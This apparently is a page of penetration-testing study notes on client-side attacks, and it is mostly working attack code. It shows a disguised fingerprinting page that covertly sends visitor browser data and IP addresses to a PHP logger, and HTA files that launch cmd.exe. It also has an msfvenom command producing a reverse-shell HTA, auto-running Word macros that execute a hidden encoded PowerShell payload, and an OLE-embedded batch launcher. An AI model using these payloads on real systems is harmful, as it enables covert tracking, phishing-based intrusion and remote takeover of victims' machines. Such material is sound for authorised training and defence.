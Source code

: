 
# Client Side Attack

### Install Fingerprintjs2 JavaScript library

```
kali@kali:/var/www/html$ sudo wget https://github.com/Valve/fingerprintjs2/archive/master.zip

kali@kali:/var/www/html$ sudo unzip master.zip

kali@kali:/var/www/html$ sudo mv fingerprintjs2-master/ fp

```

### Index.html

```
kali@kali:/var/www/html/fp$ cat index.html <!doctype html>
<html>
<head>
<title>Fingerprintjs2 test</title> </head>
<body> <h1>Fingerprintjs2</h1>
<p>Your browser fingerprint: <strong id="fp"></strong></p> <p><code id="time"/></p>
<p><span id="details"/></p>
<script src="fingerprint2.js"></script>
<script>
var d1 = new Date();
var options = {};
Fingerprint2.get(options, function (components) {
var values = components.map(function (component) { return component.value }) var murmur = Fingerprint2.x64hash128(values.join(''), 31)
var d2 = new Date();
var timeString = "Time to calculate the fingerprint: " + (d2 - d1) + "ms"; var details = "<strong>Detailed information: </strong><br />";
if(typeof window.console !== "undefined") {
for (var index in components) { var obj = components[index]; var value = obj.value;
if (value !== null) {
var line = obj.key + " = " + value.toString().substr(0, 150); details += line + "<br />";
}
}
}
document.querySelector("#details").innerHTML = details document.querySelector("#fp").textContent = murmur document.querySelector("#time").textContent = timeString
      });
  </script>
</body>
</html>
```

### Updated fp collection script

```
<!doctype html>
<html>
<head>
<title>Blank Page</title> </head>
<body>
<h1>You have been given the finger!</h1> <script src="fingerprint2.js"></script> <script>
var d1 = new Date();
var options = {};
Fingerprint2.get(options, function (components) {
var values = components.map(function (component) { return component.value }) var murmur = Fingerprint2.x64hash128(values.join(''), 31)
var clientfp = "Client browser fingerprint: " + murmur + "\n\n";
var d2 = new Date();
var timeString = "Time to calculate fingerprint: " + (d2 - d1) + "ms\n\n";
var details = "Detailed information: \n"; if(typeof window.console !== "undefined") {
for (var index in components) { var obj = components[index]; var value = obj.value;
if (value !== null) {
var line = obj.key + " = " + value.toString().substr(0, 150); details += line + "\n";
}
} }
var xmlhttp = new XMLHttpRequest();
xmlhttp.open("POST", "/fp/js.php"); xmlhttp.setRequestHeader("Content-Type", "application/txt"); xmlhttp.send(clientfp + timeString + details);
      });
  </script>
</body>
</html>
```


### Content of /fp/js.php

```
<?php
$data = "Client IP Address: " . $_SERVER['REMOTE_ADDR'] . "\n";
$data .= file_get_contents('php://input');
$data .= "---------------------------------\n\n"; file_put_contents('/var/www/html/fp/fingerprint.txt', print_r($data, true), FILE_APPEND | LOCK_EX);
?>
```

### Update permission

```
kali@kali:/var/www/html$ sudo chown www-data:www-data fp
```

### Exploring HTML Application

poc.hta

```
<html>
<body>
<script>
var c= 'cmd.exe'
new ActiveXObject('WScript.Shell').Run(c);
</script>
</body>
</html>
```
Updated File

```
<html>
<body>
<script>
var c= 'cmd.exe'
new ActiveXObject('WScript.Shell').Run(c);
</script>
</body>
</html>
```

### Shell Code Generation
```
kali@kali:~$ sudo msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=4444 -f hta-psh -o /var/www/html/evil.hta
```

### Microsoft Word Macro

#### Macro opening cmd.exe

```
Sub MyMacro() 
CreateObject("Wscript.Shell").Run "cmd"
End Sub
```
Since Office macros are not executed automatically, we must make use of two predefined procedures, namely the AutoOpen procedure, which is executed when a new document is opened and the Document_Open355 procedure, which is executed when an already-open document is re- opened. Both of these procedures can call our custom procedure and therefore run our code.

```
Sub AutoOpen() 
 MyMacro
End Sub

Sub Document_Open()
  MyMacro
End Sub

Sub MyMacro() 
 CreateObject("Wscript.Shell").Run "cmd"
End Sub
```

#### Macro with shell code

```
Sub AutoOpen() MyMacro
End Sub
Sub Document_Open() MyMacro
End Sub
Sub MyMacro()
Dim Str As String
Str = "powershell.exe -nop -w hidden -e JABzACAAPQAgAE4AZ"
Str = Str + "QB3AC0ATwBiAGoAZQBjAHQAIABJAE8ALgBNAGUAbQBvAHIAeQB" Str = Str + "TAHQAcgBlAGEAbQAoACwAWwBDAG8AbgB2AGUAcgB0AF0AOgA6A" Str = Str + "EYAcgBvAG0AQgBhAHMAZQA2ADQAUwB0AHIAaQBuAGcAKAAnAEg" Str = Str + "ANABzAEkAQQBBAEEAQQBBAEEAQQBFAEEATAAxAFgANgAyACsAY" Str = Str + "gBTAEIARAAvAG4ARQBqADUASAAvAGgAZwBDAFoAQwBJAFoAUgB" ...
Str = Str + "AZQBzAHMAaQBvAG4ATQBvAGQAZQBdADoAOgBEAGUAYwBvAG0Ac" Str = Str + "AByAGUAcwBzACkADQAKACQAcwB0AHIAZQBhAG0AIAA9ACAATgB" Str = Str + "lAHcALQBPAGIAagBlAGMAdAAgAEkATwAuAFMAdAByAGUAYQBtA" Str = Str + "FIAZQBhAGQAZQByACgAJABnAHoAaQBwACkADQAKAGkAZQB4ACA" Str = Str + "AJABzAHQAcgBlAGEAbQAuAFIAZQBhAGQAVABvAEUAbgBkACgAK" Str = Str + "QA="
CreateObject("Wscript.Shell").Run Str End Sub
```
### MS Document Abuse

we can still leverage Object Linking and Embedding (OLE)360 to abuse Microsoft Office’s document-embedding feature

content of launch.bat
```
START cmd.exe
```

Replace cmd.exe with shell code

```
START powershell.exe -nop -w hidden -e JABzACAAPQAgAE4AZQB3AC0ATwBiAGoAZQBj....
```

Bypass protected view using Microsoft Publisher



